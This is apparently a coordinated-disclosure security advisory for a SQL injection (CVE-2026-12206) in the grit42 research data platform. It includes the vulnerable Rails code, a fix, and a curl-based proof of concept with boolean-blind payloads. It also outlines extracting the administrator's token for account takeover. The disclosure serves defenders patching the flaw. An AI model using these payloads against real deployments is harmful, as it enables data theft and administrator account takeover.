


<div align="center">
  <a href="https://www.thoropass.com/" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>

  <h1>grit42: SQL Injection in Data Table Entity Endpoint</h1>

  <p>🔐 <strong>Thoropass Vulnerability Research Program</strong> 🧪</p>
</div>

<div align="center">
  
  
  
</div>


---

## Advisory Information

| &nbsp; | &nbsp; |
|:---|:---|
| **Researcher** | [Manfred Carvajal](https://www.linkedin.com/in/manfred-carvajal-a9a8562b8) on behalf of [Thoropass](https://thoropass.com) |
| **Product** | [grit](https://github.com/grit42/grit) - Open-source scientific research data management platform built by grit42 A/S. The platform stores and visualises data from pre-clinical drug discovery workflows: compounds, batches, assay models, experiment results, and dynamically-typed data tables. |
| **Affected Version** | v0.8.0 through v0.11.0 (every public release of the `grit-assays` module; sink introduced in commit `ecb9a7f`). |
| **Endpoint** | `GET /api/grit/assays/data_table_entities?data_table_id=<PAYLOAD>&scope=detailed` (and any other scope on the same resource that invokes the `detailed` or `available` class methods on `Grit::Assays::DataTableEntity`). |
| **Vulnerability Type** | CWE-89: SQL Injection |
| **CVE ID** | [CVE-2026-12206](https://www.cve.org/CVERecord?id=CVE-2026-12206) |

## Vulnerability Summary

The `Grit::Assays::DataTableEntity` model interpolates user-controlled `params[:data_table_id]` directly into a Rails `.joins(string)` clause. The model is protected by `entity_crud_with read: []`, allowing any active grit user (including zero-role accounts) to reach the sink. A preceding `DataTable.find(params[:data_table_id])` call coerces the value via `to_i`, so a payload like `1 OR 1=1` passes `.find()` but is interpolated unchanged into the JOIN, enabling subquery-based blind extraction.

A zero-role authenticated attacker extracts the administrator's `single_access_token` from `grit_core_users` via boolean-blind brute force, then replays it as a permanent `Authorization: Bearer` credential for full administrator account takeover. The same primitive reads any column the database role can see, including hashed passwords, password-reset tokens, activation tokens, and second-factor tokens.

## Technical Analysis

➤ **Vulnerable Code:** `modules/assays/backend/app/models/grit/assays/data_table_entity.rb` lines 46 and 56.

```ruby
def self.detailed(params = nil)
  model = DataTable.find(params[:data_table_id]).entity_data_type.model
  model.detailed(params)
    .joins("JOIN grit_assays_data_table_entities ON grit_assays_data_table_entities.entity_id = #{model.table_name}.id AND grit_assays_data_table_entities.data_table_id = #{params[:data_table_id]}")   # <- SQLi sink
    .select("grit_assays_data_table_entities.id as data_table_entity_id")
    .select("grit_assays_data_table_entities.data_table_id")
    .select("grit_assays_data_table_entities.sort")
    .order("grit_assays_data_table_entities.sort ASC NULLS LAST")
end

def self.available(params = nil)
  data_type = DataTable.find(params[:data_table_id]).entity_data_type
  query = data_type.model_scope("detailed", params)
    .joins("LEFT OUTER JOIN grit_assays_data_table_entities ON grit_assays_data_table_entities.entity_id = #{data_type.table_name}.id AND grit_assays_data_table_entities.data_table_id = #{params[:data_table_id]}")   # <- SQLi sink (same pattern)
    .where("grit_assays_data_table_entities.id IS NULL")
  query
end
```

Rails' `.joins(string)` accepts raw SQL fragments and intentionally bypasses ActiveRecord's `disallow_raw_sql!` protections. Whatever the attacker passes in `params[:data_table_id]` becomes part of the JOIN ON clause verbatim. Unlike `.order(string)`, the `.joins(string)` call is not run through Rails' `column_name_with_order_matcher` regex, so subquery-based blind exploitation works without any keyword-bypass tricks.

➤ **Authorization context.** The model declares `entity_crud_with read: []`. An empty `read` array signals "no role required"; the `:check_read` `before_action` only enforces role gates when the array is populated, so any authenticated user (including zero-role accounts) passes the filter.

➤ **Reachable endpoint:** `GET /api/grit/assays/data_table_entities` (the standalone resource, declared via `resources :data_table_entities` in `modules/assays/backend/config/routes.rb`). The `data_table_id` parameter is read directly from the query string when `scope=detailed` or the equivalent invocation routes through `Grit::Assays::DataTableEntity.detailed(params)`.

### Proof of Concept

#### Prerequisites
- A running grit instance reachable over HTTP/HTTPS.
- At least one `DataTable` record present (any deployment using grit42 for its intended purpose will already have these; on a fresh `grit-starter` instance, create one as administrator first).
- An authenticated low-privilege user account (zero roles is sufficient).

**1. Authenticate as a low-privilege user and capture the token.**

```bash
curl -s -c /tmp/lowpriv -X POST http://localhost:3000/api/grit/core/user_session \
  -H 'Content-Type: application/json' \
  -d '{"user_session":{"login":"low@example.com","password":"LowPriv1!"}}' > /dev/null

LOW_TOKEN=$(curl -s -b /tmp/lowpriv http://localhost:3000/api/grit/core/user_session \
  | python3 -c "import sys,json; print(json.load(sys.stdin)['data']['token'])")

echo "Low-priv token: $LOW_TOKEN"
```

**2. Trigger the always-true payload.** The injected `AND 1=1` is appended to the JOIN ON condition, so the join matches the legitimate rows for data table `10321`:

```bash
curl -s -H "Authorization: Bearer $LOW_TOKEN" \
  "http://localhost:3000/api/grit/assays/data_tables/10321%20AND%201%3D1/data_table_entities?sort=%5B%5D&filter=%5B%5D&offset=0&limit=500" \
  | python3 -c "import sys,json; print('Total:', json.load(sys.stdin).get('total'))"
# Total: 1 Rows: 1
```



**3. Trigger the always-false payload.** The injected `AND 1=0` makes the JOIN ON condition unsatisfiable:

```bash
curl -s -H "Authorization: Bearer $LOW_TOKEN" \
  "http://localhost:3000/api/grit/assays/data_tables/10321%20AND%201%3D0/data_table_entities?sort=%5B%5D&filter=%5B%5D&offset=0&limit=500" \
  | python3 -c "import sys,json; print('Total:', json.load(sys.stdin).get('total'))"
# Total: 0 Rows: 0
```



Replacing the boolean clause with `SUBSTRING((SELECT single_access_token FROM grit_core_users WHERE login='admin'), <pos>, 1) = '<candidate_char>'` and iterating through candidate characters at each position brute-forces the administrator's `single_access_token` byte-by-byte. Replaying that token as an `Authorization: Bearer` credential against `/api/grit/core/users?scope=user_administration` returns the full user list and confirms full administrator takeover.

## Impact

A remote attacker holding any active grit account, including a zero-role account created by the platform administrator for the lowest tier of access, can:

- Read every column of every table the database role can see, via boolean-blind SQL injection through the JOIN ON clause. This includes hashed passwords (`grit_core_users.crypted_password`), permanent API tokens (`single_access_token`), pending password-reset tokens (`forgot_token`), pending activation tokens (`activation_token`), and second-factor tokens (`two_factor_token`).
- Replay a leaked administrator `single_access_token` as `Authorization: Bearer`, gaining permanent administrator access without touching the password reset or 2FA flows.
- As administrator, create, modify, or destroy any user, role, vocabulary, compound, batch, assay model, experiment, or attachment on the platform.
- On the official `grit42com/grit` Docker stack, additionally read arbitrary files inside the database container via `pg_read_file()`, since the bundled PostgreSQL role retains `SUPERUSER`.

In a multi-tenant CRO deployment of grit, a single role-less account (a scientist's free-tier login) is enough to exfiltrate every project's research data and impersonate the platform administrator.

## Remediation

The minimal fix is to convert `params[:data_table_id]` to an integer before interpolating it into the JOIN string, matching the implicit contract already imposed by the upstream `DataTable.find()`. In `modules/assays/backend/app/models/grit/assays/data_table_entity.rb`, replace each occurrence of `#{params[:data_table_id]}` with `#{params[:data_table_id].to_i}`:

```ruby
def self.detailed(params = nil)
  data_table_id = params[:data_table_id].to_i
  model = DataTable.find(data_table_id).entity_data_type.model
  model.detailed(params)
    .joins("JOIN grit_assays_data_table_entities ON grit_assays_data_table_entities.entity_id = #{model.table_name}.id AND grit_assays_data_table_entities.data_table_id = #{data_table_id}")
    .select("grit_assays_data_table_entities.id as data_table_entity_id")
    .select("grit_assays_data_table_entities.data_table_id")
    .select("grit_assays_data_table_entities.sort")
    .order("grit_assays_data_table_entities.sort ASC NULLS LAST")
end

def self.available(params = nil)
  data_table_id = params[:data_table_id].to_i
  data_type = DataTable.find(data_table_id).entity_data_type
  query = data_type.model_scope("detailed", params)
    .joins("LEFT OUTER JOIN grit_assays_data_table_entities ON grit_assays_data_table_entities.entity_id = #{data_type.table_name}.id AND grit_assays_data_table_entities.data_table_id = #{data_table_id}")
    .where("grit_assays_data_table_entities.id IS NULL")
  query
end
```

## References

- Source: https://github.com/grit42/grit
- Vulnerable model: https://github.com/grit42/grit/blob/main/modules/assays/backend/app/models/grit/assays/data_table_entity.rb
- Docker image: https://hub.docker.com/r/grit42com/grit
- Starter compose: https://github.com/grit42/grit-starter
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- A05:2025 Injection: https://owasp.org/Top10/2025/A05_2025-Injection
- SQL Injection Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

## ⚠️ Disclaimer

The vulnerability was identified through authorized security testing. The proof of concept is provided to help defenders validate their exposure and verify remediation.

Thoropass follows **coordinated vulnerability disclosure (CVD)** principles. Vulnerabilities are reported privately to maintainers, reasonable time is provided for remediation, and public advisories are released after coordination or fix availability.

## About Thoropass

Thoropass delivers enterprise-grade audits with AI-native speed and precision. Designed from day one to integrate auditors, automation, and infosec workflows in a single, closed-loop system, no add-ons, no handoffs.

Our experienced penetration testing team proactively discovers vulnerabilities in web applications, APIs, and infrastructure, helping organizations secure their systems before attackers find weaknesses.

<div align="center">
  <br>

  **Thoropass Vulnerability Research Program**

  <em>Improving ecosystem security through responsible research and disclosure.</em>

  <br><br>
  <a href="https://thoropass.com/contact" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/platform/penetration-testing" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>

---

<div align="center">
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>
